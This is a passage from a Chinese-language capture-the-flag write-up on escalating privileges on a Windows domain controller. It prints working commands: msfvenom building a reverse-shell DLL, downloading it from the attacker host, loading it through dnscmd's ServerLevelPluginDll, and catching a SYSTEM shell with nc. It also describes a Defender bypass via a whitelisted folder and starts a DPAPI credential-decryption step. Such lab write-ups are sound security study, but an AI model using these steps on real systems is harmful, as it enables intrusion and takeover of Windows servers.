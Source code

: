 此路径利用 `DnsAdmins` 权限设置好后门，然后通过重启靶机这一“歪门邪道”来完美跳关。

*   **生成恶意 DLL**
    使用 `msfvenom` 创建一个反向连接 Shell 的 DLL。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.205.128 LPORT=8888 -f dll -o dns.dll
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 9216 bytes
    Saved as: dns.dll
    ```
*   **上传并配置 DLL**
    在 `tindalos` 的 Shell 中，从 Kali 下载此 DLL，并使用 `dnscmd.exe` 将其注册为 `ServerLevelPluginDll`。
    ```powershell
    *Evil-WinRM* PS C:\Users\tindalos\Documents> Invoke-WebRequest -Uri "http://192.168.205.128/dns.dll" -OutFile "C:\Users\tindalos\Documents\dns.dll"
    
    *Evil-WinRM* PS C:\Users\tindalos\Documents> dnscmd.exe localhost /config /serverlevelplugindll C:\Users\tindalos\Documents\dns.dll
    
    注册属性 serverlevelplugindll 成功重置。
    命令成功完成。
    ```
*   **监听并（模拟）重启**
    在 Kali 上开启监听。此时，通过虚拟化管理平台重启目标服务器，即可触发 DLL 加载。
    
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ nc -lvnp 8888                                                 
    listening on [any] 8888 ...
    connect to [192.168.205.128] from (UNKNOWN) [192.168.205.149] 62282
    Microsoft Windows [�汾 10.0.20348.169]
    (c) Microsoft Corporation����������Ȩ����
    
    C:\Windows\system32>whoami
    nt authority\system
    ```
    此路径虽然可行，但绕过了靶机设计的核心挑战。

## 4. 提权路径二：预期解（精准权限利用）

这条路径考验的是在受限环境下的深度信息挖掘和横向移动能力，是更为专业和隐蔽的手法。

### 4.1. 本地凭据挖掘

*   **枚举域用户**
    为规划横向移动路径，我们枚举域内的其他用户及其组关系。
    ```powershell
    *Evil-WinRM* PS C:\Users\tindalos\Documents> net user jianyin /domain
    ...
    全局组成员             *Domain Users         *DNSRestarters
    *Evil-WinRM* PS C:\Users\tindalos\Documents> net user lihua /domain
    ...
    全局组成员             *Domain Users         *AccountModifier
    ```
    发现了两个关键的自定义组：`DNSRestarters` 和 `AccountModifier`。
*   **绕过 Windows Defender**
    尝试执行`Seatbelt.exe`被 Defender 拦截。通过探索发现 `C:\wirteTEMP` 是一个白名单目录，后续工具均在此目录下执行。
*   **利用 DPAPI 解密凭据**
    **技术背景**：Windows 使用数据保护 API (DPAPI) 来加密存储在用户配置文件中的敏感信息。由于我们已知 `tindalos` 的明文密码，可以解密其 DPAPI 主密钥，进而解密由它保护的其他凭据。
    ```powershell